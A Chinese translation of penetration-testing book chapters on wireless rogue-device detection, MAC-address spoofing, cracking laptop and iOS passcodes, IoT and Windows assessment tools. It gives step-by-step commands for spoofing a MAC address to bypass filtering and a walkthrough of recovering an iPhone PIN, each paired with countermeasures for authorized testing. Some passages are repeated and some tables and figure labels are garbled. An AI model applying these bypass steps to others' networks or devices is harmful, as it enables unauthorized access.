

图 10-14：
使用 CommView for WiFi 监控未经授权的无线系统。

在 ad-hoc（点对点）模式下设置 Wi-Fi 允许无线客户端相互通信，而无需通过 AP。这些类型的 Wi-Fi 绕过了正常的无线安全控制，并可能导致超出 802.11 漏洞的安全问题。

如果你想根除隐藏的 AP 设备，你可以使用任何无线网络分析仪来查找网络中未经授权的 ad-hoc 设备。如果你发现许多在 CommView for WiFi Type 列中列为 STA（站台）的设备（见图 10-15），说明有人正在运行不受保护的无线系统，或者至少启用了 ad-hoc。这些系统可能是打印机、工作站、移动设备或不断增长的物联网。无论如何，它们都使你的网络和信息面临风险，因此值得检查。



图 10-15：
CommView for WiFi 显示未经授权的 ad-hoc 客户端。

你还可以使用本章早在“选择工具”中提到的无线热点（Hotspot）来搜索启用了 ad-hoc 的系统，甚至是无线入侵系统来搜索信标包（beacon packets），这并不等于 1。

在建筑或校园周围走动以从物理上查找未经授权的 AP。记住，良好的 AP 或 Wi-Fi 客户端将出现在你的网络分析工具中。

在网络中搜索未经授权的无线设备时，如果你发现了什么，不要立即假设它是非法设备。判断设备是否在附近的一种方法是检查信号强度。使用无线网络分析仪有助于缩小搜索范围并防止误报。

## 破解网络

了解你的网络环境是有益的。了解周围的情况更容易发现潜在问题。判断发现的 AP 是否连接到你网络的一种良好方法是执行反向 ARP 将 IP 地址映射到 MAC 地址。你可以在命令提示符中使用 `arp -a` 进行此测试，并将 IP 地址与相应的 MAC 地址进行比较。请记住，Wi-Fi 会验证用户。犯罪分子利用这一点，通过远程访问软件（如 Telnet 或 SSH）或利用已知的操作系统漏洞获取访问。然后他们对你的网络拥有完全访问权限。

## 针对非法设备的防御措施

检测网络中非法 AP 和主机的唯一方法是主动监控你的无线网络（如果可能，实时监控），寻找可能存在的无线客户端或非法 AP。无线入侵系统非常适合这种监控。但如果没有非法客户端出现并不意味着你是安全的。你可能还需要无线分析仪或其他网络管理应用程序。

在所有无线主机上使用个人防火墙软件（如 Windows Firewall），以未经访问你的网络。

最后，不要忘记教育。教育不是万能的，但它可以作为额外的防御层。确保安全始终位于人的脑中。第 19 章包含了关于意识和培训的更多信息。

## MAC 欺骗

无线网络的常见防御是 MAC 地址控制。这些控制涉及配置你的 AP 只允许已知 MAC 地址的无线客户端连接到网络。因此，针对无线网络的一种常见攻击是 MAC 欺骗。坏蛋可以很容易地在 Linux 中使用 `ifconfig` 命令以及在 Windows 中使用我在第 9 章中描述的工具来欺骗 MAC 地址。

然而，类似于 WEP 和 WPA，基于 MAC 的访问控制是另一层保护，比没有好。如果有人欺骗了你的 MAC 地址之一，检测恶意行为的办法是通过上下文感知，通过在 WLAN 的两个或多个地方发现相同的 MAC 地址，这可能是复杂的。

判断 AP 是否使用 MAC 地址控制的一种简单方法是关联并通过 DHCP 获取 IP 地址。如果你可以获得 IP 地址，则该 AP 未启用 MAC 地址控制。


以下步骤概述了你如何测试 MAC 地址控制并演示它们有多容易绕过：

- 1. 找到一个可以连接的 AP。

你只需加载 NetStumbler，如图 10-16 所示。

在此测试中，SSID 为 doit 的 AP 是我想测试的那个。也注意此 AP 的 MAC 地址。此地址有助于确保你在后续操作中查看正确的包。虽然出于隐私目的隐藏了这个 AP 的 MAC 地址，但它的 MAC 地址是 00:40:96:FF:FF:FF。同样注意图 10-16，NetStumbler 能够确定 AP 的 IP 地址。获取 IP 地址有助于你确认你处于正确的无线网络上。

| | 名称 | 速度 | 厂商 | 类型 | 加密 | 信号 | SSID | IP 地址 |
|---|---|---|---|---|---|---|---|
| 000D7... | 6 | 22 | Zvie | WEP | 36 | 64 | 100 | |
| 001E6... | 12 | 27 | Zvie | WEP | 36 | 64 | 100 | |
| 01EEE9... | 10 | 11 | AboCom | AP | 29 | 67 | 100 | |
| 00D406... | 1 | 11 | Cisco | AP | 24 | 100 | 26 | 10.11.12.154 |



- 2. 使用 WLAN 分析仪，寻找无线客户端向广播地址发送探测请求包，或 AP 使用探测响应进行回复。

你可以在分析仪中设置过滤器来查找此类帧，或者捕获包并浏览它们，寻找你在第 1 步中记录的 AP MAC 地址。


注意，出于隐私考虑，假设无线客户端的完整 MAC 地址为 00:09:5B:FF:FF:FF，它在第 98 个数据包中首先向广播地址（FF:FF:FF:FF:FF:FF）发送了探测请求。具有我正在查找的 MAC 地址的 AP 向 00:09:5B:FF:FF:FF 回复了探测响应（Probe Response），确认了该设备是网络上的一个无线客户端，我将对其进行 MAC 控制测试。



图 10-17：
在被测试的网络上寻找无线客户端的 MAC 地址。
2 个数据包 109 字节
时间跨度：0.00972 秒

## 3. 将你电脑的 MAC 地址更改为在步骤 2 中找到的无线客户端 MAC 地址。

在 Unix 和 Linux 中，你可以通过使用以下 `ifconfig` 命令轻松地更改 MAC 地址：

- a. 以 root 身份登录，然后禁用网络接口。

在命令中插入你想禁用的网络接口名称（通常为 wlan0 或 eth0），如下：

```
[root@localhost root]# ifconfig wlan0 down
```

- b. 输入你想使用的新 MAC 地址。

如下插入伪造的 MAC 地址和网络接口号：

```
[root@localhost ~]# ifconfig wlan0 hw ether
01:23:45:67:89:ab
```

以下命令在 Linux 中同样有效：

```
[root@localhost ~]# ip link set wlan0 address
01:23:45:67:89:ab
```

- c. 使用此命令恢复接口启动：

```
[root@localhost ~]# ifconfig wlan0
```

如果你更改了 Linux 的 MAC 地址，可以使用功能更丰富的实用工具 Gnu MAC Changer (https://github.com/alobbbs/macchanger)。

较新版本的 Windows 使得更改 MAC 地址变得困难。你可能可以通过控制面板中的无线网卡属性来更改你的 MAC 地址。如果你不喜欢以这种方式调整操作系统（或者无法做到），可以尝试由 KLC Consulting 创建的新型廉价工具 SMAC（可在 www.klconsulting.net/smac 获取）。要更改 MAC 地址，请遵循第 9 章中的步骤。

完成后，SMAC 显示的界面与图 10-18 中的屏幕类似。


图 10-18：SMAC 显示伪造的 MAC 地址。

| 文件 | 关于 | 网络适配器 | IP 地址 | 激活 MAC |
| :--- | :--- | :--- | :--- | :--- | :--- |
| ID | 087 | 是 | 否 | NETGEGER WAG | 0.0.0 | 00:FF:FF:FF:FF:FF |
| 仅显示网络地址 | | 更新 MAC | 退出 | | |
| 新 地址 | 72 | 14 | AD | BE | EF | | |
| 伪造 MAC 地址 | | | | | | |


要撤销之前的任何 MAC 地址更改，请反向执行执行的操作，然后删除你创建的所有数据。

注意，AP、路由器、交换机等可能会检测到网络上有多个系统在使用相同的 MAC 地址（即你的和你正在伪造的主机的地址）。你可能需要等该系统离开网络。然而，我很少看到通过这种方式伪造 MAC 地址出现问题，所以你可能不需要做任何事情。

- 4. **确保你已连接到相应的 SSID。**

即使你的网络运行的是 WEP 或 WPA，你也可以测试你的 MAC 地址控制。你只需要在连接前输入加密密钥即可。

- 5. **在网络上获取 IP 地址。**

你可以重启或禁用/启用你的无线网卡，在 Windows 命令行提示符中运行 `ipconfig /renew`，或者在无线网卡的网络属性中输入已知 IP 地址。

- 6. **通过 ping 另一个主机或浏览互联网来确认你已接入网络。**

在这个示例中，我可以 ping AP (10.11.12.154)，或者直接加载我最喜欢的浏览器来查看我是否可以访问互联网。

就是这些了。你通过六个简单的步骤绕过了你无线网络的 MAC 地址控制。轻而易举！

## 针对 MAC 伪造的防御措施

防止绕过 MAC 地址控制以及随后对你的无线网络进行未经授权访问的最简单方法是启用 WPA2 或即将推出的 WPA3。另一种控制 MAC 地址的方法是使用 MAC 过滤，尽管这很容易被绕过。

## 物理安全

硬件的未经授权访问可能导致物理安全漏洞。你应该确保你的设备存放在安全的地方。


物理安全漏洞可能源于对硬件的未经授权访问。你应该确保你的设备存放在安全的地方。

物理安全漏洞可能源于对硬件的未经授权访问。你应该确保你的设备存放在安全的地方。

[## 漏洞工作站]

## 漏洞工作站

基于 Windows 的笔记本电脑等无线工作站可能存在漏洞，从弱密码到未打补的安全漏洞再到本地存储 WEP 和 WPA 密钥。大多数常见的无线客户端漏洞已由各自的修复，但你无法确定所有系统是否都在运行最新（通常是最安全的）操作系统、无线客户端软件和其他应用程序版本。

除了在本章之前提到的无线客户端、碰撞和网络分析之外，你还应该通过漏洞测试工具（如 GFI LangGuard、Nexpose 和 Acunetex Vulnerability Scanner）执行认证扫描来搜索无线客户端漏洞。

这些程序并不是专门针对无线，但它们可能会发现你可能没有发现或考虑过的漏洞。

## 针对工作站的防御措施

你可以实施以下防御措施，防止你的工作站成为进入无线网络的切点：

- 定期对你的无线工作站或其他网络主机进行漏洞评估。
- 应用最新的厂商安全补丁并强制执行强密码。
- 尽可能在所有无线系统（包括手机和平板）上使用个人防火墙（如 Windows 防火墙）和端点安全软件，以防止恶意入侵者进入这些系统并进入你的网络。
- 安装反病毒软件。

## 默认配置设置与无线工作站类似，无线 AP 和路由器有许多已知漏洞。最常见的是默认 SSID 和管理员密码。更具体的漏洞仅出现在某些硬件和软件版本中，这些发布在漏洞数据库和厂商网站上。


默认也禁用了 WPA/WPA2。或者是因为诚意的疏忽而被这样设置，且从未经过适当的安全防护。

## 针对默认配置设置漏洞的防御措施

你可以为 Wi-Fi 实施一些简单且有效的防御措施，而且这些都是免费的：

- 确保更改了默认管理员密码和 SSID。
- 至少要启用 WPA2。使用由至少 20 个随机字符组成的强力 PSK，或者使用带有 RADIUS 服务器身份验证的企业模式 WPA/WPA2。
- 如果不需要此功能，请禁用 SSID 广播。
- 为你的 AP 和 Wi-Fi 卡应用最新的固件补丁。这种防御措施有助于防止各种漏洞，最大限度地减少与 AP 管理接口以及客户端管理软件相关的已知漏洞被利用的。

## 本章内容

- >> 寻找笔记本电脑、手机和平板中的常见弱点
- >> 执行安全测试以发现关键的移动漏洞
- >> 探索与物联网（IoT）相关的安全漏洞
- >> 降低移动安全风险

## 第 11 章：移动设备

移动计算在业务和黑客攻击领域都很流行。似乎每个人都有某种用于个人或业务的移动设备（通常两者兼顾）。如果没有妥善的安全，连接到企业网络的移动设备将代表成千上万个不受保护的信息孤岛，漂浮在你的控制范围之外。

由于有大量的手机、平板电脑和笔记本电脑运行着包含大量应用程序的操作系统（OS），移动计算涉及无限的风险。与其深入研究所有变量，本章将探索可能影响你和你的业务的一些最大、最常见的移动安全漏洞。

## 评估移动漏洞

发现并修复网络中的“易摘果实”是值得的，这样你可以物超所值。以下移动笔记本电脑、手机和平板的弱点应该处于你优先级列表的核心：

- >> 无加密
- >> 加密实现不当
- 无开机密码
- >> 易被猜中（或被破解）的开机密码

对于其他技术和系统（网络应用程序、操作系统等），你通常可以找到所需的测试工具。然而，用于发现移动相关漏洞的安全工具相对较少。并不意外的是，最贵的工具能让你以最少的痛苦和麻烦覆盖主要的漏洞。

## 破解笔记本电脑密码

可以说，对任何业务安全最大的威胁是未加密的笔记本电脑。鉴于所有关于这种实际上不安全的漏洞的消息和认知，我无法相信它在业务中仍然流行。本节探讨了你可以用于破解 Windows、Linux 或 macOS 系统上未加密笔记本电脑密码的工具。我还讨论了防御此类漏洞的基本防御措施。

## 选择你的工具

我用来演示运行 Windows 的未加密笔记本电脑风险的最爱工具是 Elcomsoft Software Recovery (https://www.elcomsoft.com/esr.html)。你将此工具刻录 DVD 或 USB 设备，并使用它启动想要恢复（或重置）密码的系统，如图 11-1 所示。

你可以选择重置本地管理员（或其他）密码，或者必须破解所有密码。该工具非常简单，并且在包括 Windows 10 在所有操作系统上都非常成功。

你也可以使用一个旧的 Windows 工具名为 NTAccess (https://www.mirider.com/ntaccess.html) 来重置本地 Windows 账户。这个程序不贵也不花哨，但确实有效。其他工具也可用（在本节稍后的部分讨论），Elcomsoft 和 NTAccess 提供了极佳的方法证明你可以对笔记本电脑硬盘进行加密。

人们会告诉你他们的笔记本电脑上没有任何重要或敏感的内容，但事实确实。即使是看似用于培训或销售的笔记本电脑也包含数十条敏感信息，如果笔记本电脑丢失或被盗，这些信息可能会被用来危害业务。这些信息包括从网络复制到本地的表格、存储了登录凭据的虚拟专用网络（VPN）连接、缓存了浏览历史的网络浏览器以及（最糟糕的）用户选择保存的密码。




在你恢复或破解本地管理员（或其他）账户后，你可以登录 Windows 并获得系统的完全访问。通过查看 WinHex (www.winhex/winhex)、AccessEnum (https://technet.microsoft.com/en-us/library/bb89732.aspx) 或类似的工具，你可以找到敏感信息、远程网络连接和缓存的 Web 连接，以演示业务风险。如果你想进一步深挖，可以使用 Elcomsoft 的额外工具，如 Phone Breaker、Reactive Password Auditor 和 Advanced EFS Data Recovery，从 Windows 系统中恢复额外信息。Passware (https://www.passware.com) 也提供了类似的商业工具。

如果你想对基于 Linux 的笔记本电脑进行类似的检查，你应该能够从 Knopix (www.knoppix.net) 或类似系统启动。


我建议你在一或两台示例笔记本电脑上使用 Ophrack 的 LiveCD，以演示从没有加密硬盘的笔记本电脑恢复密码以及随后的敏感信息是多么简单。这个工具简单得惊人，但许多人拒绝投入资金购买全盘加密软件，即使是完全免费且适用于企业级的 Microsoft BitLocker。ElcomSoft System Recovery 是进行这项练习的另一个绝佳工具。

## 全盘加密的误区

加密笔记本电脑硬盘并解决笔记本安全问题似乎简单。在一个完美的世界里，情况确实如此，但只要有人的参与，我怀疑这种移动性的弱点将一直存在。

磁盘加密的几个问题会导致虚假的安全感：

- **密码选择**** 你的磁盘加密好坏，完全取决于启用加密时使用的密码（或短语）。

- **密钥管理：** 如果用户在忘记或丢失密码后没有进入系统的方法，他们就会吃一次亏，并且此后将不择一切手段避免加密硬盘。此外，某些磁盘加密软件（如微软的 BitLocker）可能会提供选项（甚至让用户）将加密密钥存储在优存盘或类似的存储设备上。丢了笔记本，而通往宝库的钥匙就直接存在于笔记本包里！这种情况确实会发生。

- **屏幕锁定：** 全盘加密的一个潜在致命缺陷在于，用户拒绝在每次离开加密的笔记本电脑时确保屏幕已锁定。犯罪分子只需几秒钟就能偷走一台笔记本，从而获得并维持对一个受全盘加密“完全保护”的系统的访问权限。

最后一个影响：某些类型的全盘加密被破解了。例如，BitLocker、FileVault2 和 TrueCrypt 提供的保护可以完全被 Password Kit Forensic 和 ElcomSoft Forensic Disk Decrypt (www.elcomsoft.com/ref.html) 等程序完全抵消。此外，你不应该再使用 TrueCrypt，因为它的原始开发者已经销声，且存在某些漏洞，可以让你的系统免受那些技术不精通的路人的侵害，而这些人最终可能会获得你丢失或被盗的系统之一。

## 采取应对措施

防止黑客使用密码重置程序攻击系统的最佳防护措施是加密硬盘。你可以在 Windows 中使用 BitLocker、WinMagic SecureDoc (https://www.wimagic.com/products)，或其他适用于你运行平台的其他首选终端安全产品。

在 BIOS 中设置的开机密码也很有帮助，但它们通常只是路上的小障碍。任何犯罪分子只需要重置 BIOS 密码，或者更好的办法是从你丢失的系统中取出硬盘，并在另一台机器上访问它。你还需要确保人们无法对你的电脑进行未经授权的物理访问。当黑客拥有物理访问权限且你的硬盘未加密时，一切都化为乌有。尽管如此，全盘加密并非无一击；参见旁边的侧栏“全盘加密的误区”。好消息是，带有统一扩展固件接口 (UEFI) 的较新电脑对此类攻击具有更强的抵抗力。

# 破解手机和平板出于许多原因，我不羡慕 IT 管理员信息安全经理，尤其是当今企业的自带设备（BYOD）运动。通过 BYOD，你必须信任用户正在对安全做出决策，并且必须想办法如何管理每个设备、平台和应用程序。这项管理任务可以说是 IT 专业人员面临的最大挑战。更复杂的情况是，犯罪黑客、小偷和其他暴徒正尽力利用这种复杂性，制造出严重的业务风险。现实是，很少有——个人——的手机和平板得到了妥善的安全保护。

许多供应商声称其移动设备管理 (MDM)、企业移动管理 (EMM) 或统一终端管理 (UEM) 解决方案能够明智地管理移动设备。他们是对的……在某种程度上。这些系统的控制功能可以将个人信息与业务信息分开，并确保始终启用适当的安全控制，这是向锁定移动企业的一大步。

保护手机和平板免受未经授权使用的最佳方法之一，是实施这种追溯到计算机初期的巧妙安全控制措施：密码。是的，你的手机和平板用户应该使用老式的密码（技术上讲是短语），这些密码易于记忆但难以猜测。密码是你能拥有的最佳控制手段，但有许多移动设备没有密码，或者密码很容易被破解。

从 iOS 9 开始，iOS 设备默认带有六位数字密码。Android Lollipop 最初默认加密整个设备，尽管在收到有关性能下降的投诉后该设置被撤销。

在接下来的章节中，我将演示如何使用商业取证工具访问移动设备。请记住，此类工具通常仅限于执法人员和安全专业人员，但它们很容易落入坏人手中。使用工具进行你自己的安全测试可以是演示业务风险并为改进控制措施提供依据的极佳方法。

移动应用可能会向你的环境引入一系列安全漏洞，特别是通过 Google Play 提供的某些未经适当审核的 Android 应用。在最近使用 Checkmark 的 CsSuite 进行源代码分析时（见第 15 章），我发现这些应用与传统软件具有相同的缺陷，例如 SQL 注入、硬编码加密密钥和缓冲区溢出，这些可能让敏感信息面临风险。恶意软件的威胁也存在。移动应用是另一个使用经过的 MDM 系统（如 MaaS360 (www.maas360.com) 或 AirWatch (www.airwatch.com)）来控制移动环境的原因。

# 破解 iOS 密码

我大胆猜测，许多手机和平板密码（实际上只是 码或密码）可以直接被猜到。当移动设备丢失或被盗时，获得它的人只需要尝试 1234、1212 或 0000 等组合。很快，漂亮！系统解锁了。

许多运行 iOS 和 Android 的手机和平板被配置为在输入错误密码若干次数（通常为 10 次）后清除设备。这种安全控制确实是合理的。但你还能做什么？某些商业工具可以破解简单的密码或码，并从丢失、被盗或正在取证调查的设备中恢复信息。

ElcomSoft 的 iOS Forensic Toolkit (https://www.elcomsoft.com/eift.html) 提供了一种演示基于 iOS 的手机和平板密码和码如何被破解的方法。方法如下：

- 1. 将 iOS 设备（iPhone、iPad 或 iPod）插入你的测试电脑，并将其放入固件升级 (DFU) 模式。要进入 DFU 模式，关闭设备，同时按住主键（通常是右上角）和睡眠键 10 秒，然后继续按住主键 10 秒。设备屏幕变黑。

- 2. 通过将 USB 许可密钥插入测试电脑并运行 Toolkit.cmd。你会看到图 11-5 所示的屏幕。

- 3. 选择选项 2 (LOAD RAMDISK) 在移动设备上加载 iOS Forensic Toolkit Ramdisk。加载 RAMDISK 代码允许你的测试电脑与移动设备以及破解密码（所需的工具）进行通信。

- 4. 如图 11-6 所示，选择连接的 iOS 设备。


我选择选项 14 是因为我正在一台带有 GSM 网络的旧款 iPhone 4 上进行测试。
工具包连接到设备并确认加载成功，如图 11-7 所示。你应该能清晰地在设备屏幕中央看到 ElcomSoft 的标志。



图 11-7：
iOS 取证工具 Randisk 加载成功。

## 5. 要破解设备的密码或 PIN，请在主菜单上选择选项 6 (GET PASSCODE)。

iOS Forensic Toolkit 允许你将密码保存到文件中。你可以按回车键接受默认的 `passcode.txt`。破解过程开始，如果运气好的话，将找到并显示密码，如图 11-8 所示。

手机和平板电脑没有密码是有害的，但使用像示例中这样的四位 PIN 码则更糟糕。请用户小心！

你还可以使用 iOS Forensic Toolkit 复制文件，甚至破解钥匙串（keychains），以发现保护 iTunes 中设备备份的密码（选项 5 GET KEYS）。

使用 ElcomSoft 的 iOS Forensic Toolkit 破解 iOS 8 及更高版本的 iOS 现在可能没有那么奏效了，因为苹果已经开始真正锁定操作系统。然而，Apple iOS 仍然并非完美。直到最近的 iOS 9，一个漏洞仍允许攻击者绕过锁屏。


196 第 3 部分 攻击网络主机


```
C:\Windows\system32\cmd.exe
Welcome to Elcomsoft iOS Toolkit
This is a release version 1.0
(c) 2001-2012 Elcomsoft Co. Ltd.
```

请注意，要恢复 iOS 4/5 的密码，你需要将设备连接到 iTunes 或电脑。如果失败，你必须仍返回上一个步骤和相应的菜单项。

选择分区（相对于当前目录）
将密码保存到文件 (passcode.txt)
挂载分区...
开始恢复密码...

```
Elcomsoft 2012 Passcode Recovery
Part of Elcomsoft iOS Toolkit
Version 1.0 (Build 2012)
(c) 2001-2012 Elcomsoft Co. Ltd.
[INFO] Device Serial Number: 79E1B2B3D2
[INFO] Starting passcode (4 digits)
[INFO] Passcode is all-digit, filtering non-digits from charset.
[INFO] Waiting...
[INFO] Passcode recovery: checking PIN...
[INFO] Passcode found: 1234
[INFO] ELAPSED TIME: 7.0 + s
```

图 11-4：
在 iPhone 上破解四位 PIN 码。

在某种程度上，你需要考虑的是你的业务信息（这些信息目前很可能存在于手机和平板中），在你的员工的某台设备被执法人员没收时，将如何被处理。这些执法人员遵循他们的监管链程序，总体而言，他们没有太大动力来确保信息长期处于保护状态。

小心同步移动设备的方式，尤其是存储文件备份的地方。备份可能存储在“远外蓝天”（云端），这意味着你没有真正的方法来衡量个人和业务信息到底有多安全。另一方面，当同步备份在没有密码的情况下存储，或存储在未加密的笔记本电脑上，一切仍然处于风险之中，因为有可用工具可以破解用于这些信息的加密。Elcomsoft Phone Backup: https://www.elcomsoft.com/peppb.html 可用于解锁 BlackBerry 和 Apple 设备的备份，并恢复到 iCloud 和 Windows 的在线备份！

## 采取措施防止密码破解

防止此类密码破解最现实的方法是要求——并持续强制执行——强密码，即由五位或更多数字组成的多位 PIN。更好的是，要求复杂的短语，这些短语易于记忆且几乎不可能被破解，例如 `Progressive_rock_rules!`。

假设（哈！）用户正在将设备更新到最新版本的 iOS 和 Android，那么你不应该会遇到问题。MDM 或 UEM 控制可以帮助你执行此类策略。你可能会来自员工和管理层的阻，但强短语和更新的软件是帮助防止此类攻击的唯一保证。我在第 20 章介绍如何获得你安全倡议的支持。祝你好运！

## 攻击物联网

任何关于移动设备的章节如果没有涵盖物联网（IoT）的内容都是不完整的。属于物联网的计算机系统涵盖了从家用报警系统到制造设备、咖啡壶以及之间的几乎任何东西，包括汽车。

思科估计，到 2020 年，物联网将增长到 500 亿设备！也许这就是为什么所有的 IPv4 地址都用光了。我不确定这对大多数人来说是一件好事，但对于我们这些在这个行业工作的人来说听起来很安全。如果你要破解物联网系统，必须首先了解它们如何脆弱。鉴于物联网系统与其他网络系统相似（它们有 IP 地址和 Web 界面），你可以使用标准的扫描器来发现漏洞。针对物联网系统你应该的安全问题包括：

- 信息是否存储在系统中（例如敏感客户信息、知识产权或来自 Fitbit 和 Apple Watch 等设备的生物数据？）如果这些设备丢失或被盗，会产生业务风险吗？
- 信息是否在系统之间传输，是否经过了加密？
- 是否需要密码？默认密码复杂度标准是什么？是否可以更改？是否存在入侵锁定机制以帮助破解密码？
- 缺少哪些补丁导致了安全漏洞？是否有软件更新？
- 系统在漏洞扫描和模拟拒绝服务攻击下的表现如何？
- 物联网系统需要实施哪些额外的安全策略？

与其他所有系统一样

## 4 攻击操作系统

## 在此部分...

查看 Windows 的弱点以及可以采取哪些措施。

了解 UNIX、Linux 和 macOS 系统并不像人们认为的那样安全。

## 本章内容

- >> 扫描系统
>> 无需登录获取信息

- >> 利用漏洞
>> 降低 Windows 风险

## 12 章 Windows

当 Windows 和其他微软软件受到攻击时，特别是受到基于互联网的蠕虫或病毒攻击时，会影响成千上万的机构和数百万计算机。许多著名的攻击会导致：

- 敏感信息泄露，包括包含医疗信息和信用卡号的文件。
- 密码被破解并用于其他攻击。
- 系统被拒绝服务 (DoS) 攻击击痪。
- 整个数据库被复制或删除。


当未受保护的 Windows 系统受到攻击时，全球范围内大量的计算机可能会发生严重的后果。

## 选择工具

有数百种 Windows 黑客和测试工具可用。关键在于找到一组既能满足你的需求，又能让你熟练使用的工具。

许多安全工具（包括本章描述的一些工具）仅在某些版本的 Windows 上运行。本章中每个工具的最新版本都应该与当前支持的 Windows 版本兼容，但你的实际情况可能会有所不同。

我发现，我在 Windows 中安装的安全工具和其他高级用户应用程序——尤其是那些关联网络用户驱动程序和 TCP/IP 栈的程序——在 Windows 上是最不稳定的。我指的是性能缓慢、通用性不稳定，甚至偶尔出现蓝屏死（BSOD）。不幸的是，唯一的解决办法是重新安装 Windows 和所有的应用程序。在每隔几个月重建一次系统多年后，我聪明地买了一份 VMware Workstation，现在我就可以用测试工具随意折腾它，而不用担心这些软件会影响我完成其他工作的能力。（啊，那些 DOS 和 Windows 1.x 的时代，一切都是那么简单！）

# 微软免费工具

你可以使用以下微软工具测试系统的各种弱点：

- **用于 NetBIOS 和 TCP/UDP 服务枚举的 Windows 内置程序**，例如：
    - nbtstat：用于收集 NetBIOS 节点表信息。
    - nstat：用于显示本地 Windows 系统上的开放端口。
    - net：用于运行各种基于网络的命令，包括查看远程 Windows 系统上的共享情况，以及在通过 Metasploit 获取远程命令提示符后添加用户账户。
- **微软基准安全分析器 (MBSA)** (https://www.microsoft.com/en-us/download/details.aspx?id=7558)：用于测试缺失的补丁和基础 Windows 安全设置。
- [Sysinternals](https://docs.microsoft.com/en-us/sysinternals)：用于在本地和通过网络探测、监控 Windows 服务、进程和资源。

## 多合一评估工具

多合一工具可以执行多种安全测试，包括：

- 端口扫描。
- OS 指纹识别。
- 基础密码破解。
- 对工具在你的 Windows 系统上发现的各种安全弱点进行详细的漏洞映射。

我经常在这些这些工具，效果非常好：

- [GFI LangGuard](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-langguard3)
- Nexpose (https://www.rapid7.com/products/nexpose)

## 特定任务工具

以下工具执行更具体的任务，以发现 Windows 相关的安全漏洞。这些工具提供了对你 Windows 系统的深入见，并提供了你可能无法从多合一评估工具获得的信息：

- Metasploit Framework 和 Metasploit Pro (https://www.metasploit.com)：使用 Nessus 和 Nexpose 等工具利用漏洞来获取远程命令提示符、所有用户、设置远程后门以及更多操作。
- NetScanTools Pro (https://www.netscans.com)：用于端口扫描、Ping 扫描和共享枚举。
- SoftPerfect Network Scanner (https://www.softperfect.com/products/networkscanner)：用于主机发现、端口扫描和共享枚举。
- TCPView (https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)：用于查看 TCP 和 UDP 会话信息。
- Winfo (www.ntsecurity.nu/toolbox/winfo)：用于空会话枚举，以收集安全策略、本地用户账户和共享等配置信息。

请记住，禁用 Windows 防火墙（或运行在测试系统上的其他第三方防火墙）可以加快扫描速度。杀病毒软件也是如此——但要小心。如果可能，请在专用系统或虚拟机上运行安全测试，因为这样做可以最大限度地减少测试结果对你在计算机上进行的其他工作的影响。

# 收集有关你 Windows 漏洞的信息

当你评估 Windows 漏洞时，从扫描你的计算机开始，看看坏人能看到什么。

